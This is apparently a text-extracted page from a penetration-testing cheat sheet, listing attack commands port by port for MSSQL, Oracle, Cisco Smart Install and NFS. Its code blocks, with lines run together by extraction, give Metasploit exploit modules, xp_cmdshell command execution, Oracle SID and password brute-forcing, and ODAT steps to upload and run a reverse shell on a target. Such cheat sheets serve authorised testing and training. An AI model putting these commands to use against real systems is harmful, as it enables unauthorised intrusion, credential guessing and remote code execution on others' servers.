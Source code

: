 [Fortinet Ports Guide](https://help.fortinet.com/fos50hlp/54/Content/FortiOS/fortigate-ports-and-protocols-54/Images/FortiGate.png)

[SSL VPN Leak](https://opensecurity.global/forums/topic/181-fortinet-ssl-vpn-vulnerability-from-may-2019-being-exploited-in-wild/?%5C_%5C_cf%5C_chl%5C_jschl%5C_tk%5C_%5C_=42e37b31a0585f7dae3dbce18cafde7c39b81976-1578385705-0-AcuYzrPMO1OuMo59JSPYyzZjiXNbMAIl6sKiXwhQRbMUMZq1Kp3VmWqIVXWZdzTZgFCecXue1Z6xXxU-Rql%5C_GT%5C_ovKiar%5C_-i0CUCKFS85bfNXnUzuOuIwomXje-kH87mNbVHzzh9ediRfVWbJjwtO-ttLEYi7quczLlHQk38UqcumrARs77RrK2mj9zOb8Uwhv6av4QZ9od4fgAIl-F4Kff26MPQjs4LRHsgk5zH6RVwFMP8NdOnCrrzkkGH6%5C_R9Dtw89%5C_QtiOsH1nKB0hBDbtJ2O9AkkMDqw7tl1ip%5C_pVDfnw1lvaZtFq1sRqgYwpan-n6n9f58Xdjcj2UGFKdE32OS7Ete8X7RwXUV9FGUSOhAM5%5C_iK0kMNJg3mskrFVQz0lONaZVvFRdf%5C_1rp69J4oRVat1m7KIQEGpRDe4OvYUb7pfQkNKLcK5s%5C_lVIj2SAJQQ)

## Port 1433 - MSSQL

```
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111use auxiliary/scanner/mssql/mssql_pinguse auxiliary/scanner/mssql/mssql_loginuse exploit/windows/mssql/mssql_payloadsqsh -S 10.11.1.111 -U sa    xp_cmdshell 'date'      goEXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'<https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/>
```

## Port 1521 - Oracle

```
oscanner -s 10.11.1.111 -P 1521tnscmd10g version -h 10.11.1.111tnscmd10g status -h 10.11.1.111nmap -p 1521 -A 10.11.1.111nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-bruteMSF: good modules under auxiliary/admin/oracle and scanner/oracle# <https://github.com/quentinhardy/odat>./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE# Upload reverse shell with ODAT:./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe# and run it:./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe
```

## Port 2000 - Cisco sccp

```
# cisco-audit-toolCAT -h ip -p 2000 -w /usr/share/wordlists/rockyou.txt# cisco-smart-install<https://github.com/Sab0tag3d/SIET/>sudo python siet.py -g -i 192.168.0.1
```

## Port 2049 - NFS

```
nmap -p 111,2049 --script nfs-ls,nfs-showmountshowmount -e 10.11.1.111# If you find anything you can mount it like this:mount 10.11.1.111:/ /tmp/NFS –o nolockmount -t nfs 10.11.1.111:/ /tmp/NFS –o nolock
```

## Port 2100 - Oracle XML DB
